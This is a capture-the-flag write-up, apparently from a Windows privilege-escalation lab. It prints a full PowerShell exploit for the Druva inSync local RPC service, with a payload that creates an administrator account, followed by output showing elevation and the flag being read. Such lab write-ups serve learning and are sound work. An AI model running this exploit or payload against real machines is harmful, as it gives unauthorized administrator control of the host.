


## Exercises

### Question 1 — Get the flag on the Administrator's desktop.

I opened PowerShell on the lab machine and pasted in the exploit, changing the `$cmd` payload to also add the new user to the Administrators group in one go:

```powershell
C:\Users\thm-unpriv>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm-unpriv> $ErrorActionPreference = "Stop"
>>
>> $cmd = "net user pwnd /add & net localgroup administrators pwnd /add"
>>
>> $s = New-Object System.Net.Sockets.Socket(
>>     [System.Net.Sockets.AddressFamily]::InterNetwork,
>>     [System.Net.Sockets.SocketType]::Stream,
>>     [System.Net.Sockets.ProtocolType]::Tcp
>> )
>> $s.Connect("127.0.0.1", 6064)
>>
>> $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
>> $rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
>> $command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
>> $length = [System.BitConverter]::GetBytes($command.Length);
>>
>> $s.Send($header)
>> $s.Send($rpcType)
>> $s.Send($length)
>> $s.Send($command)
```

**Breakdown:**

- `$cmd = "net user pwnd /add & net localgroup administrators pwnd /add"` chains both the user-creation command and the group-membership command together with `&`, so a single RPC call to procedure 5 does both at once — creating `pwnd` with no password set, then adding it to Administrators
- The rest of the script builds and sends the four-packet exploit exactly as published: the hello header, the procedure-5 selector, the command's byte length, and the command string itself, over a raw TCP socket connected to `127.0.0.1:6064`

I confirmed the account had been created and added to the Administrators group:

```powershell
PS C:\Users\thm-unpriv> net user pwnd

User name                    pwnd
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/12/2026 8:59:24 PM
Password expires             12/24/2026 8:59:24 PM
Password changeable          11/12/2026 8:59:24 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```

`Local Group Memberships` confirmed `pwnd` was now in `*Administrators`.

To get an elevated prompt as `pwnd`, I searched for `cmd`, right-clicked it, and chose "Run as administrator." This brought up a User Account Control prompt defaulting to `Administrator`. I clicked "More choices" and selected `pwnd` from the list:



Since my payload had created `pwnd` with no actual password set, I left the password field blank and clicked Yes anyway — it went through without complaint, despite the account listing `Password required: Yes` a moment earlier:

```cmd
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc3\pwnd
```



With an elevated prompt as `pwnd` confirmed, I navigated to the Administrator's desktop and read the flag:

```cmd
C:\Windows\system32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

05/05/2022  07:23 AM    <DIR>          .
05/05/2022  07:23 AM    <DIR>          ..
05/05/2022  07:23 AM                21 flag.txt
05/05/2022  07:20 AM               962 Procmon64.lnk
               2 File(s)            983 bytes
               2 Dir(s)  24,636,010,496 bytes free

C:\Users\Administrator\Desktop>type flag.txt
—REDACTED—
```

**Answer:** `—REDACTED—`